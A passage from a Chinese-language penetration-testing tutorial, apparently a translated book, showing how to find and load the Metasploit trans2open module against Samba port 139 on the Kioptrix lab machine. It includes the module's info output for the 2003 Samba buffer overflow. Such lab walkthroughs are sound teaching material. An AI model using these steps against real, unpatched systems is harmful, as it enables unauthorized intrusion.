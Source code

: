 在审查这些端口时，我们发现我们之前利用的 samba 端口 139 仍然是开放的。现在是时候看看在不必重新格式化利用代码的情况下我们能做些什么了。

```
msf> search samba 

```

结果是：

![使用 Metasploit 来利用 Kioptrix](img/7744_04_13.jpg)

+   名称：一旦我们决定尝试哪种漏洞利用，名称列将与 USE 命令相关联。

+   披露：披露日期是漏洞被公开或供应商知晓的实际日期，而不是概念验证代码发布的日期。

+   等级：等级非常重要，因为它表明漏洞利用的可靠性有多高。

+   描述也是这种漏洞利用的描述。

我们将使用`trans2open`漏洞利用，因为它类似于我们在本章前手动执行的操作。在`msfconsole`中输入：

```
msf > use exploit/linux/samba/trans2open 

```

当需要更多关于漏洞利用的信息时，我们可以使用`info`命令来接收以下输出：

```
msf exploit(trans2open) > info 

```

```
Name: Samba trans2open Overflow (Linux x86)
Module: exploit/linux/samba/trans2open
Version: 12196
Platform: Linux
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Great
Provided by:
hdm <hdm@metasploit.com>
jduck <jduck@metasploit.com>
Available targets:
Id Name
-- ----
0 Samba 2.2.x - Bruteforce
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 139 yes The target port
Payload information:
Space: 1024
Avoid: 1 characters
Description:
This exploits the buffer overflow found in Samba versions 2.2.0 to
2.2.8\. This particular module is capable of exploiting the flaw on
x86 Linux systems that do not have the noexec stack option set.
NOTE: Some older versions of RedHat do not seem to be vulnerable
since they apparently do not allow anonymous access to IPC.
References:
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2003-0201
http://www.osvdb.org/4469
http://www.securityfocus.com/bid/7294
http://seclists.org/bugtraq/2003/Apr/103

```
